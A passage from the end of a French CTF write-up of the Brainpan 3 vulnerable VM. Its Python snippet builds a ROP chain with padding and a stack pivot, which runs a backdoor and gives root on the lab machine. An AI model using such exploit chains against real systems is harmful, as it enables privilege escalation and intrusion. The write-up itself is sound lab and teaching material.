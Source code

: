 ```python
    fd.write(struct.pack("<I", POP_EBX))
    fd.write(struct.pack("<I", GROW_2 - 0x1270304))
    fd.write(struct.pack("<I", OVERWRITE))

    # still 0xd to add
    fd.write(struct.pack("<I", POP_EBX))
    fd.write(struct.pack("<I", GROW_3 - 0x1270304))
    fd.write(struct.pack("<I", OVERWRITE))

    fd.write(struct.pack("<I", CALL_EAX))
    fd.write(struct.pack("<I", FOO))

    fd.write(b"A"*24)
    fd.write(b"\n")

    fd.write(struct.pack("<I", PIVOT))
    fd.write(b"lorem ipsum\n")
```

On copie le fichier généré dans */opt/.messenger* et notre backdoor */tmp/foo* est exécutée, nous donnant les droits root et l'accès au flag qui est sous format TROFF (manpage) :)  

![Brainpan 3 final flag](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_3/bp3_flag.png)

Outro dramatique
----------------

Une grande satisfaction d'avoir terminé ce 3ème opus de *Brainpan*. Merci à [superkojiman](https://twitter.com/@superkojiman) pour les arrachages de cheveux et le pétage de neurones :)  

PS: en lisant les writeups d'autres participants il s'avère que l'on peut simplement activer la fonctionnalité *report* sur le service initial en passant un nom de session avec beaucoup de Y qui écraseront les valeurs sur la stack :p

*Published June 18 2019 at 14:57*
